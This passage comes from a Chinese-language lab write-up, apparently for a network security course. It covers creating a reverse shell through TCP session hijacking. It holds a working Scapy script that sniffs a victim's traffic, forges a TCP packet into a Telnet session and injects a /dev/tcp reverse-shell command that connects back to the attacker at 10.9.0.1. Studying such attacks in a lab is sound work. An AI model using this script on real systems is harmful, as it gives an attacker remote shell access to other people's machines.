 可以看到 $victim$ 已被侵入。

---

## Task 4: Creating Reverse Shell using TCP Session Hijacking

当攻击者能够使用 TCP 会话劫持将命令注入受害者的计算机时，他们对在受害者计算机上运行一个简单的命令不感兴趣；

他们对运行许多命令感兴趣。显然，通过 TCP 会话劫持来运行这些命令是不方便的。

攻击者想要达到的目的就是利用这次攻击设置一个后门，然后利用这个后门方便地进行进一步的破坏。

设置后门的典型方法是从受害计算机运行反向shell，以便攻击者可以通过 shell 访问受害计算机。

反向 shell 是在远程计算机上运行的 shell 进程，连接回攻击者的计算机。

编写 `reverseshell.py`：

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):

    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    # 创建IP层对象，交换源地址和目的地址：
    # - 源地址（src）设为捕获到的数据包的目的地址
    # - 目的地址（dst）设为捕获到的数据包的源地址

    tcp = TCP(sport=pkt[TCP].dport, dport=23, flags="A", seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为捕获到的数据包的目的端口
    # - 目的端口（dport）设为23（通常为Telnet端口）
    # - 标志位（flags）设为 "A"，表示TCP ACK（确认）包
    # - 序列号（seq）设为捕获包的确认号（ack），
    # - 确认号（ack）设为捕获包的序列号加1

    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\n\0"
    # 定义数据部分，包含一个反向Shell命令，该命令试图通过网络连接远程主机
    # - 命令启动一个bash Shell，并将其输入和输出重定向到远程主机的指定IP（10.9.0.1）和端口（9090）

    pkt = ip/tcp/data
    # 将IP层、TCP层和数据部分组合成一个完整的数据包

    send(pkt, verbose=0)
    # 发送伪造的TCP ACK包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理

```
